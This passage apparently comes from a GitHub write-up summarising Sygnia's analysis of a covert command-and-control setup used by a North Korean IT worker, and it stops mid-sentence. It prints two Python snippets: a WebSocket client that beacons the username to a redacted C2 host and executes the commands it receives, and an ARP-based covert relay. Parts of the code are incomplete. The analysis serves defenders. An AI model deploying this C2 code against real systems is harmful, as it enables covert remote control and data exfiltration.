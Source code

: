 ![image](https://github.com/user-attachments/assets/02591835-c9b2-466f-bc3d-0610f784ac9e)

<br />
### Summarizing Sygnia’s Work
<br />
[Sygnia’s investigation](https://www.sygnia.co/blog/unmasking-north-korean-it-farm/) uncovered a covert command-and-control (C2) mechanism presumably used by a North Korean IT worker operating inside a legitimate company. The infrastructure included a series of Python scripts running locally on the operator's system, enabling communication with a [remote WebSocket server](https://www.blackhillsinfosec.com/command-and-control-with-websockets-wsc2/). A presence beaconing script periodically sent the current username to the C2 server via HTTP POST, while a WebSocket client maintained a persistent connection to receive real-time commands such as launching Zoom meetings or simulating keyboard input. These commands were executed locally using subprocess calls and tools like [xdg-open](https://linux.die.net/man/1/xdg-open) and [xdotool](https://github.com/jordansissel/xdotool), suggesting the use of a Unix-like operating system.
<br />
```python
import websocket
import json
import subprocess  
import os
import requests

C2 = "ws://[REDACTED]/"
USER_NAME = os.getenv("USER")


def send_presence():
   requests.post(C2, json={"username": USER_NAME})

def on_message(ws, message):
   data = json.loads(message)
   if data.get("command") == "open_zoom":
        subprocess.run(["xdg-open", "zoommtg://zoom.us/start"])
    elif data.get("command") == "approve_remote":
      subprocess.run(["xdotool", "key", "Return"])
ws = websocket.WebSocketApp("ws://[REDACTED]", on_message=on_message) ws.run_forever()
```  
<br />
To extend control to nearby systems, the setup also used ARP-based communication. A “Command Rebroadcast Relay” script crafted ARP packets containing command identifiers within the hwsrc field and broadcast them on the local network. Companion scripts on other systems acted as passive ARP listeners, monitoring for these packets using Scapy. When a matching ARP packet was received, the listener extracted the payload and forwarded it back to the attacker’s C2 server. This notionally enabled real-time coordination of multiple compromised systems within the same LAN.
<br />
```python  
from scapy.all import sniff, sendp, Ether, ARP   

def process_arp(packet):
    if ARP in packet and packet[ARP].op == 1:
        payload = packet[ARP].hwsrc
        forward_to_c2(payload)  

sniff(filter="arp", prn=process_arp)

def rebroadcast_command(command):
    packet = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(op=1, hwsrc=CHANNEL_ID,
psrc="0.0.0.0")
    sendp(packet, iface="eth0")
```
<br />
That would mean the C2 would look something like this:
